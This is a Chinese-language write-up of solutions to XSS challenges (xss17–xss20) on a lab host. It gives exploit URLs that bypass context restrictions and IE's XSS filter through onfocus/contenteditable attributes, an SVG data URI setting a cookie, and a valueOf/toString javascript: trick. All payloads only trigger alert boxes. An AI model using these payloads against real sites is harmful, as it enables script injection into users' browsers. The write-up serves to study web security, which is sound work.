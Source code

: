 ref: http://www.thespanner.co.uk/2014/03/21/rpo/

#### [xss17.php](./xss17.php)

输出点在div里面，这种被动元素如何去触发xss？

html5sec总结：https://html5sec.org/#145所以可以被动一点，需要用户点击一下之类操作去触发xss

IE exp:
```
http://xianzhi.aliyun.com/xss17.php?content=a%27%20style=%27-webkit-user-modify:read-write%27%20onfocus=%27alert(1)%27%20id=%27xss
```
但是M师傅提供了一个比较通用而且无需用户交互的poc

除FF以外的浏览器 exp:
```
http://xianzhi.aliyun.com/xss17.php?content=%27onfocus=%27alert(1)%27%20contenteditable%20tabindex=%270%27%20id=%27xss#xss
```
ref: https://github.com/cure53/XSSChallengeWiki/wiki/Mini-Puzzle-1-on-kcal.pw



#### [xss18.php](./xss18.php)

也是炒鸡好的题目，输入点在textarea里面，在不能闭合的情况下搞事情

有一个细节就是，开启了xss保护 在IE下，这个保护是他会把认为有害的字符过滤掉
![](http://mmbiz.qpic.cn/mmbiz_png/fwNqC4xHXIpgOSLQpYt4viblZnd3uT86iadXn0TKGCW6fI4scTFoGw6vmDdqsRcKcnV24OPiczTX1hFPDykeGFDiaQ/0.png?tp=webp&wxfrom=5&wx_lazy=1)

IE exp:
```
http://xianzhi.aliyun.com/xss18.php?input=%3Ctextarea%3E%3Cimg%20src=1%20on%3Cscript%3Eerror=alert(document.domain)%3E
```
ref: https://www.slideshare.net/codeblue_jp/xss-attacks-exploiting-xss-filter-by-masato-kinugawa-code-blue-2015


#### [xss19.php](./xss19.php)

http://xianzhi.aliyun.com/xss19.php?link=http://up.qqjia.com/z/face01/face06/facejunyong/junyong02.jpg

FF exp:

```
http://xianzhi.aliyun.com/xss19.php?link=data:image%2fsvg%2bxml,%3Cmeta%20xmlns=%27http://www.w3.org/1999/xhtml%27%20http-equiv=%27Set-Cookie%27%20content=%27username=%25%32%35%33%43script%25%32%35%33%65alert%25%32%35%32%381%25%32%35%32%39%25%32%35%33%43%25%32%35%32%66script%25%32%35%33%65%27%20/%3E
```

#### [xss20.php](./xss20.php)

IE exp
```
http://xianzhi.aliyun.com/xss20.php?hookid='%2b{valueOf:location, toString:[].join,0:'javascript:alert%25281%2529',length:1}%2b'
```
